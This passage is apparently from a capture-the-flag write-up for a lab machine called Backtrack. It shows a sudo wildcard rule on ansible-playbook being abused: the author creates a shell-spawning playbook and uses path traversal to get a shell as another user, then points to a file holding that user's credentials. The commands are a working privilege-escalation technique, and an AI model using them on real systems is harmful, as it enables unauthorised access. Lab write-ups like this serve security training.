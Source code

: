 ## Shell as wilbur

### Sudo Privileges

Checking the `sudo` privileges for the `tomcat` user, we see that we are able to run the command `/usr/bin/ansible-playbook /opt/test_playbooks/*.yml` as the `wilbur` user.

```console
tomcat@Backtrack:/$ sudo -l
Matching Defaults entries for tomcat on Backtrack:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User tomcat may run the following commands on Backtrack:
    (wilbur) NOPASSWD: /usr/bin/ansible-playbook /opt/test_playbooks/*.yml
```

Due to the wildcard (`*`) in the command, we can use a directory traversal payload to run any playbook we want.

We can find an example of a playbook that will spawn a shell in [GTFObins](https://gtfobins.github.io/gtfobins/ansible-playbook/#sudo).

First, we create our playbook.

```console
tomcat@Backtrack:/$ echo '[{hosts: localhost, tasks: [shell: /bin/sh </dev/tty >/dev/tty 2>/dev/tty]}]' > /dev/shm/shell.yml
tomcat@Backtrack:/$ chmod 777 /dev/shm/shell.yml
```
{: .wrap }

Now, by running our playbook with the directory traversal payload, we obtain a shell as the `wilbur` user.

```console
tomcat@Backtrack:/$ sudo -u wilbur /usr/bin/ansible-playbook /opt/test_playbooks/../../dev/shm/shell.yml
...
PLAY [localhost] **************************************************************************************************************

TASK [Gathering Facts] ********************************************************************************************************
ok: [localhost]

TASK [shell] ******************************************************************************************************************
$ id
uid=1004(wilbur) gid=1004(wilbur) groups=1004(wilbur)
```

Additionally, by reading `/home/wilbur/.just_in_case.txt`, we can find the credentials for the user.
